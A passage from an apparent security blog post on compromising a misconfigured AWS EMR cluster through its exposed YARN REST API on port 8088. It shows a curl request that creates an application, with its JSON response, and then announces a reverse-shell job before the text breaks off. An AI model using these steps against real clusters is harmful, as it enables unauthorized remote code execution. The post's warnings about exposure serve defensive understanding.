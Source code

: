 In order to access the cluster make sure to add a security group to the primary node which gives access to 8088. **DO NOT EXPOSE THIS TO THE ENTIRE INTERNET**. I cannot stress this enough, do not expose the port to entire Internet, only allow access from a trusted IP.

---

### Compromising EMR

As it turns out with improper security configurations an EMR deployment can be compromised with a couple of curl requests or a quick python script.

The first request we need to make constructs a new application for us, and returns various meta details about the applicaiton.

```bash
curl --request POST 'PRIMARYHOST:8088/ws/v1/cluster/apps/new-applicaion'
```

If successful we get a response similar to the one below:

{{< highlight json "linenos=table,hl_lines=2,linenostart=1" >}}
{
 "application-id": "application_1590702911576_0016",
 "maximum-resource-capability": {
  "memory": 12288,
  "vCores": 4,
  "resourceInformations": {
   "resourceInformation": [
    {
     "maximumAllocation": 9223372036854775807,
     "minimumAllocation": 0,
     "name": "memory-mb",
     "resourceType": "COUNTABLE",
     "units": "Mi",
     "value": 12288
    },
    {
     "maximumAllocation": 9223372036854775807,
     "minimumAllocation": 0,
     "name": "vcores",
     "resourceType": "COUNTABLE",
     "units": "",
     "value": 4
    }
   ]
  }
 }
}
{{< / highlight >}}

The main field we care about is the application-id field. The resource information is also important. We need to make sure that we do not request resources beyond the capacity of the resources allocted for the applications.

The next step is to execute the application. Within an exection request, we define additional parameters for the job. There are all kinds of configuration options such as resources to consume, commands to run, and a lot of other things that are well beyond the scope of this article. The POST request below will call our application and have it run a simple reverse shell:
